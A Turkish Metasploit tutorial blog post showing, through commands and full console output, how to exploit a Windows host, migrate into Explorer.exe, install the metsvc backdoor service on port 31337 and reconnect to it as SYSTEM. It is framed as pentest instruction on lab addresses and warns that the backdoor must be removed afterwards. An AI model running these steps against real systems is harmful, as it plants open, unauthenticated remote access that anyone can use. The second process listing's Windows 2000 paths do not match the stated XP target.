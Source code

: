 ```yaml
---
draft: false

title:  'MSF Meterpreter Backdoor'
date: '2017-06-15T13:56:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Hedef sisteme giriş yaptıktan sonra, kalıcılık sağlamanın bir yolu da\_metsvc\_servisini kullanmaktır. Bu servis sayesinde istediğiniz zaman tekrar Meterpreter oturumu açabilirsiniz.\_metsvc\_hakkında detaylı bilgiyi bağlantıyı kullanarak inceleyebilirsiniz." 
 
url:  /tr/msf-meterpreter-backdoor/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```

## Meterpreter metsvc

Hedef sisteme giriş yaptıktan sonra, kalıcılık sağlamanın bir yolu da `metsvc` servisini kullanmaktır. Bu servis sayesinde istediğiniz zaman tekrar Meterpreter oturumu açabilirsiniz. <a href="http://www.phreedom.org/software/metsvc/">metsvc</a> hakkında detaylı bilgiyi bağlantıyı kullanarak inceleyebilirsiniz.

metsvc hakkında bilmeniz gereken önemli bir noktayı vurgulayalım. **Bu servisi yerleştirdiğiniz bilgisayarın ilgili portunu bulan herkes bu arka kapıyı kullanabilir.** Pentest işlemleri esnasında kullandıktan sonra iptal etmelisiniz yoksa sistemi, art niyetli kişilere açık duruma getirmiş olursunuz. Bu da sistem sahiplerinin hiç hoşuna gitmeyebilir.

Öncelikle sistemde, bulduğunuz bir açıklıkla ilgili modülü kullanarak meterpreter oturumu açalım.
```bash
msf exploit(3proxy) > exploit

> Started reverse handler
> Trying target Windows XP SP2 - English...
> Sending stage (719360 bytes)
> Meterpreter session 1 opened (192.168.1.101:4444 -> 192.168.1.104:1983)
```

`ps` komutuyla `Explorer.exe` programının PID numarasını bulalım ve `migrate` komutuyla bu PID numaralı programa geçiş yapalım.
```bash
meterpreter > ps

Process list
**============**

    PID   Name                 Path
    ---   ----                 ----
    132   ctfmon.exe           C:\WINDOWS\system32\ctfmon.exe
    176   svchost.exe          C:\WINDOWS\system32\svchost.exe
    440   VMwareService.exe    C:\Program Files\VMware\VMware Tools\VMwareService.exe
    632   Explorer.EXE         C:\WINDOWS\Explorer.EXE
    796   smss.exe             \SystemRoot\System32\smss.exe
    836   VMwareTray.exe       C:\Program Files\VMware\VMware Tools\VMwareTray.exe
    844   VMwareUser.exe       C:\Program Files\VMware\VMware Tools\VMwareUser.exe
    884   csrss.exe            \??\C:\WINDOWS\system32\csrss.exe
    908   winlogon.exe         \??\C:\WINDOWS\system32\winlogon.exe
    952   services.exe         C:\WINDOWS\system32\services.exe
    964   lsass.exe            C:\WINDOWS\system32\lsass.exe
    1120  vmacthlp.exe         C:\Program Files\VMware\VMware Tools\vmacthlp.exe
    1136  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1236  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1560  alg.exe              C:\WINDOWS\System32\alg.exe
    1568  WZCSLDR2.exe         C:\Program Files\ANI\ANIWZCS2 Service\WZCSLDR2.exe
    1596  jusched.exe          C:\Program Files\Java\jre6\b**in**\jusched.exe
    1656  msmsgs.exe           C:\Program Files\Messenger\msmsgs.exe
    1748  spoolsv.exe          C:\WINDOWS\system32\spoolsv.exe
    1928  jqs.exe              C:\Program Files\Java\jre6\b**in**\jqs.exe
    2028  snmp.exe             C:\WINDOWS\System32\snmp.exe
    2840  3proxy.exe           C:\3proxy\b**in**\3proxy.exe
    3000  mmc.exe              C:\WINDOWS\system32\mmc.exe

meterpreter > migrate 632
> Migrating to 632...
> Migration completed successfully.
```

`metsvc` modülünü kullanmadan önce yardımı görüntüleyelim ve bize hangi olanakları sağladığını görelim.
```bash
meterpreter > run metsvc -h
>
OPTIONS:

    -A        Automatically start a matching multi/handler to connect to the service
    -h        This help menu
    -r        Uninstall an existing Meterpreter service (files must be deleted manually)

meterpreter >
```

`metsvc`, normalde bize geri bağlantı da sağlayan bir programdır ancak biz zaten Meterpreter oturumu açtığımız için geri bağlantıya şimdilik ihtiyacımız yok. Sadece programı çalıştıralım.
```bash
meterpreter > run metsvc
> Creating a meterpreter service on port 31337
> Creating a temporary installation directory C:\DOCUME~1\victim\LOCALS~1\Temp\JplTpVnksh...
>  > Uploading metsrv.dll...
>  > Uploading metsvc-server.exe...
>  > Uploading metsvc.exe...
> Starting the service...
>      ***** Installing service metsvc
 ***** Starting service
Service metsvc successfully installed.

meterpreter >
```

`metsvc` başladı ve artık bağlanmak için bekliyor. Şimdi bu servisle nasıl haberleşeceğimizi görelim.

Hedef sistemde dinleme durumundaki `metsvc` ile haberleşmek için `windows/metsvc_bind_tcp` payload modülünü kullanacağız. Modülü, aşağıdaki örnekte olduğu gibi aktif hale getirelim ve gerekli PORT ayarlarını yapalım.
```bash
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/metsvc_bind_tcp
PAYLOAD => windows/metsvc_bind_tcp
msf exploit(handler) > set LPORT 31337
LPORT => 31337
msf exploit(handler) > set RHOST 192.168.1.104
RHOST => 192.168.1.104
msf exploit(handler) > show options

Module options:

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
Payload options (windows/metsvc_bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LPORT     31337            yes       The local port
   RHOST     192.168.1.104    no        The target address
Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
msf exploit(handler) > exploit

> Starting the payload handler...
> Started bind handler
> Meterpreter session 2 opened (192.168.1.101:60840 -> 192.168.1.104:31337)
```

Gördüğünüz gibi `session 2` otomatik olarak açıldı. Şimdi, `metsvc` servisinin hedef bilgisayarda hangi PID numarasıyla çalıştığına bakalım.
```bash
meterpreter > ps

Process list
**============**

   PID   Name               Path                                                  
   ---   ----               ----                                                  
   140   smss.exe           \SystemRoot\System32\smss.exe                         
   168   csrss.exe          \??\C:\WINNT\system32\csrss.exe                       
   188   winlogon.exe       \??\C:WINNT\system32\winlogon.exe                    
   216   services.exe       C:\WINNT\system32\services.exe                        
   228   lsass.exe          C:\WINNT\system32\lsass.exe                           
   380   svchost.exe        C:\WINNT\system32\svchost.exe                         
   408   spoolsv.exe        C:\WINNT\system32\spoolsv.exe                         
   444   svchost.exe        C:\WINNT\System32\svchost.exe                         
   480   regsvc.exe         C:\WINNT\system32\regsvc.exe                          
   500   MSTask.exe         C:\WINNT\system32\MSTask.exe                          
   528   VMwareService.exe  C:\Program Files\VMware\VMware Tools\VMwareService.exe
   564   metsvc.exe         c:\WINNT\my\metsvc.exe                                
   588   WinMgmt.exe        C:\WINNT\System32\WBEM\WinMgmt.exe                    
   676   cmd.exe            C:\WINNT\System32\cmd.exe                             
   724   cmd.exe            C:\WINNT\System32\cmd.exe                             
   764   mmc.exe            C:\WINNT\system32\mmc.exe                             
   816   metsvc-server.exe  c:\WINNT\my\metsvc-server.exe                         
   888   VMwareTray.exe     C:\Program Files\VMware\VMware Tools\VMwareTray.exe   
   896   VMwareUser.exe     C:\Program Files\VMware\VMware Tools\VMwareUser.exe   
   940   firefox.exe        C:\Program Files\Mozilla Firefox\firefox.exe          
   972   TPAutoConnSvc.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnSvc.exe
   1000  Explorer.exe       C:\WINNT\Explorer.exe                                 
   1088  TPAutoConnect.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnect.exe

meterpreter > pwd
C:\WINDOWS\system32
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

Çıktıdan görülebileceği gibi, `metsvc` programı, 564 PID numarasıyla çalışmaktadır. Artık istediğiniz zaman, hedef bilgisayarda dinleme yapan programa, `windows/metsvc_bind_tcp` payload modülünü kullanarak bağlanabiliriz.

Tekrar hatırlatmak gerekirse, güvenlik testi işlemleriniz bittiğinde `metsvc` programını sistemden silmelisiniz.
